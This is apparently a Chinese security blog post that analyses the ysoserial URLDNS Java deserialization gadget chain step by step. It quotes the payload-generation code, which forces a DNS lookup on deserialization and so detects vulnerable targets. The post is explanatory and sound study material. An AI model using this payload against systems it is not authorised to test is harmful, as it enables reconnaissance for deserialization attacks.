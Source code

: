 ```yaml
---
title: ysoserial-URLDNS
categories:
 - ysoserial
tags:
- ysoserial
- 反序列化

---
```


ysoserial-URLDNS利用链分析

# 环境搭建

`git clone https://github.com/frohoff/ysoserial.git`

下载ysoserial源码用idea打开

`jdk>=1.8`

在1.8 以前HashMap.readObject() 方法中没有调用 HashMap.putVal() 方法

ysoserial中PayloadRunner.run()中对生成的序列化结果进行了反序列化

![image-20210416223858534](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210416223858534.png)

在URLDNS的main方法中调用了PayloadRunner.run()，配置一下参数就能进行反序列化调试

![image-20210416224059290](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210416224059290.png)

# 利用链分析

URLDNS类中对利用链的的描述如下

```
*   Gadget Chain:
*     HashMap.readObject()
*       HashMap.putVal()
*         HashMap.hash()
*           URL.hashCode()
```

在这几个函数都打上断点便于调试

![image-20210416224325062](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210416224325062.png)

这里没什么好说的，就在HashMap.readObject()里调用了putVal时调用了HashMap.hash()

![image-20210416224438567](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210416224438567.png)

在hash()中调用了key.hashcode()，这个key为URL对象，跟到URL.hashcode()

![image-20210416224513993](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210416224513993.png)

这里在判断hashcode为-1后，调用了handler.hashCode，handler为URLStreamHandler，跟到对应的hashcode中

![image-20210416224558311](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210416224558311.png)

这里调用了getHostAddress(u)之后得到了DNS查询记录

![image-20210416225416934](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210416225416934.png)

![image-20210416225118915](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210416225118915.png)

查看该函数的描述，也确实是做了DNS查询，整个利用链非常简单，接下来我们来看如何构造一个对象可以实现该利用链

# PayLoad生成

```Java
public Object getObject(final String url) throws Exception {

        //Avoid DNS resolution during payload creation
        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

        Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

        return ht;
}
```

首先是把URL对象的handler设置为SilentURLStreamHandler，SilentURLStreamHandler继承了URLStreamHandler，这一步目的是为了调用URLStreamHandler.getHostAddress()

把URL对象的spec设置为要进行DNS查询的网址，然后将该URL对象作为Key放入HashMap，因为利用链中是利用的是key.hash()

最后通过反射将hashcode设置为-1，这样才能调用handler.hashCode。

```Java
public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
    final Field field = getField(obj.getClass(), fieldName);
    field.set(obj, value);
}
```

```Java
	public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
	try {
	    field = clazz.getDeclaredField(fieldName);
	    setAccessible(field);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
		return field;
	}
```

这段简单来说就是获取hashcode并且setAccessible使之可以被修改。

# 小结

URLDNS虽然无法造成实质性的危害，但是在目标可以出网时可以用来测试是否存在反序列化漏洞，便于为进一步构造其他Gadget提供了帮助。


